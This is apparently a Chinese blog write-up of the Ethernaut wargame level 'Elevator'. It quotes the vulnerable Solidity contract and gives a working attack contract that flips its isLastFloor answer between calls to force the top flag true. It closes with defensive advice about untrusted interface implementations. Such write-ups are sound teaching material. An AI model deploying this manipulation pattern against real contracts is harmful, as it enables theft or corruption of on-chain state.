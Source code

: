 ```yaml
---
title: Ethernaut 闯关笔记 第12关 Elevator
date: 2023-12-20 16:10:00
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

# 攻击思路

进入 `if` 语句就代表着 `building.isLastFloor(_floor) == false` ，那么 `top` 似乎永远都无法为 `true` 。

实际上，我们可以随心所欲地实现 `Building` 合约。如何让一个合约一会儿返回 `false` ，过一会儿返回 `true` 呢？其实，每次调用的时候记录一下上一次的返回值，下一次返回时就返回相反的值即可。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

contract Elevator {
    bool public top;
    uint public floor;

    function goTo(uint _floor) public {
        Building building = Building(msg.sender);

        if (! building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}


contract ElevatorHack is Building{
    bool lastReturn = true;
    Elevator target;

    function isLastFloor(uint) external returns (bool) {
        if(lastReturn == true) {
            lastReturn = false;
            return false;
        }
        else {
            lastReturn = false;
            return true;
        }
    }

    function hack(address targetAddress) public {
        target = Elevator(targetAddress);
        target.goTo(114514);
    }
}
```

# 安全启示

涉及到接口的使用时，要考虑某些人可能会恶意实现接口，操纵接口合约的返回值进而操纵目标合约。

即使一个外部调用只返回了非常简单的信息，合约只是希望将这次外部调用的返回值作为判断条件或其他无关紧要的信息，而不想改变外部合约的状态，外部合约仍然有可能在这样的调用中改变自己的状态。

为了防止外部合约发生以外的状态改变，可以要求外部合约实现 `view` 函数或 `pure` 函数。
